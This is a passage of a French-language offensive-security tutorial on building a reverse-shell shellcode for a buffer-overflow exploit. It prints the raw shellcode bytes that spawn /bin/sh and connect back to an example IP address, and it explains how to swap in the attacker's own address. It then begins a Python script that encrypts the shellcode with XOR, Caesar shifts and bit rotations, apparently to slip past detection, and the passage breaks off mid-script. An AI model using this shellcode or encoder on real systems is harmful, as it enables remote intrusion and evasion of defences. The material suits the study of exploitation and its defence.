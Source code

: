 Si le résultat vous indique :
```shell
h
dfhzifjH1�H1�@�H1�@�H1��)H1ҲH�4$H��H1��*H1��!@�ư!@�ư!H�//bin/shH1�VWH1�H�<$H1��;
```

C'est que votre shell interprète l'hexadécimal. Cela peut arriver si votre shell est `zsh` par exemple.

Dans ce cas ouvrez un shell bash puis ré-exécuté la commande :
```shell
/bin/bash
for i in `objdump -D reverseShell | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done ; echo
```

Nous pouvons voir que notre shellcode ne contient aucun badchar. En réalité, il en contient un qui est `\x0a`. Cependant, cela correspond au `10` de notre adresse IP et cela ne posera donc aucun problème.

{{< admonition >}}
Ici, l'adresse IP `127.1.10.100` est utilisée pour l'exemple. Bien sûr, cela n'a aucun intérêt puisque nous ouvrons un shell sur notre machine depuis notre machine. Néanmoins, il suffit de remplacer l'IP par l'adresse de notre machine d'attaque ainsi que de modifier la longueur totale du socket (troisième argument de la fonction `connect`), si cela est nécessaire. En effet, ce shellcode sera exécuté sur la machine cible, lors de l'exécution du buffer overflow, qui se connectera alors à notre machine d'attaque. Ainsi, nous aurons une connexion entrante sur le port de notre machine d'attaque qui nous permettra d'effectuer des commandes sur la machine cible.
{{< /admonition >}}

### Chiffrement du shellcode

Ensuite, nous devons chiffrer notre shellcode. Pour cela, un script Python, par exemple, serait utile afin de ne pas avoir à le faire à la main.

Voici donc le code Python qui nous permettra de chiffrer facilement notre shellcode :
```python
#!/usr/bin/env python3
#encoding: UTF-8

import sys
import argparse

verificator = 0
encryptedShellcode = []

# Bit shift operation to the left
rol = lambda aValue, aBitShift, aMaxBits=8: (aValue << aBitShift % aMaxBits) & (2 ** aMaxBits - 1) | ((aValue & (2 ** aMaxBits - 1)) >> (aMaxBits - (aBitShift % aMaxBits))) 

# Statement of program arguments
parser = argparse.ArgumentParser()
parser.add_argument("--shellcode", help="The shellcode", required=True)
parser.add_argument("--XOR", help="The XOR key", type=int, required=True)
parser.add_argument("--cesarKey1", help="The first cesar key", type=int, required=True)
parser.add_argument("--cesarKey2", help="The second cesar key", type=int, required=True)
parser.add_argument("--ROL1", help="The first bit shift key", type=int, required=True)
parser.add_argument("--ROL2", help="The second bit shift key", type=int, required=True)
args = parser.parse_args()

shellcodeSplitted = args.shellcode.split("x")[1:]

# Browsing of the shellcode
for i in range(len(shellcodeSplitted)):
    verificator = verificator + 1

    if verificator == 1:
```